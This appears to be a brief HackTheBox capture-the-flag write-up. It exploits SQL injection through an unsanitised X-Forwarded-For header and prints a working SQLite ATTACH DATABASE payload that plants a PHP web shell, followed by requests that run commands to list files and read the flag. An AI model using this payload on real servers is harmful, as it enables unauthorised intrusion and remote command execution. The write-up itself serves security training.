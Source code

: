 Look at code see `X-Forwarded-For` is read and not sanitised, so we have sql injection
Doing some research we find out we can make a new php file with code in it
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database
```
', ''); ATTACH DATABASE '/www/run.php' AS run; CREATE TABLE run.pwn (data text); INSERT INTO run.pwn (data) VALUES ("<?php system($_GET['cmd']); ?>"); -- 
```

```
GET /run.php?cmd=ls /
GET /run.php?cmd=cat /flag_1d23c48aade7db8.txt
```
```
HTB{inj3ct3d_th3_tru7h}
```